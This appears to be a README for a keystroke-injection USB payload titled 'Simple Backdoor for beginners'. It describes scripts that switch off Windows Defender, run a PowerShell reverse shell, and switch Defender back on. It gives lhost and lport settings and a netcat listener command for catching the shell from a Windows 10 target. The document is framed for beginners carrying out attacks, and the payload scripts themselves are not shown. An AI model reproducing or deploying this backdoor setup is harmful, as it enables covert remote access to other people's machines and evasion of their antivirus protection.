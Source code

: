 # Title:      
 Simple Backdoor for beginners
## Description
* 1 script deactivates Windows Defender
* 2 script runs the powershell script
* 3 script activates Windows Defender
* Author:           RonjaMaja
* Version:          1.0
* Category:         Remote access
* Target:           Microsoft Windows 10 (should work on Windows 11)
* Attackmode:       HID
* Credits to antonioCoco who wrote the powershell script

## Configuration
You just need to change lhost and lport
lhost = your IP adress
lport = the port you want to use for the Backdoor. I recommend ssh (22).

## NetCat Command
    stty raw -echo; (stty size; cat) | nc -lvnp rport rhost
rhost = the target
rport = the port you want to use for the Backdoor (same as lport).

## Tested on

Microsoft Windows 10 Professional Version 20H2 (PowerShell 5.1)

## requirements

The target user must belong to the 'Administrators' group.

## STATUS

| LED                 | Status                                 |
| ------------------- | -------------------------------------- |
| Yellow Single       | deactivate defender Stage              |
| Yellow Double       | Backdoor Stage                         |
| Yellow Double       | activate defender Stage                |
| Green               | Finished                               |
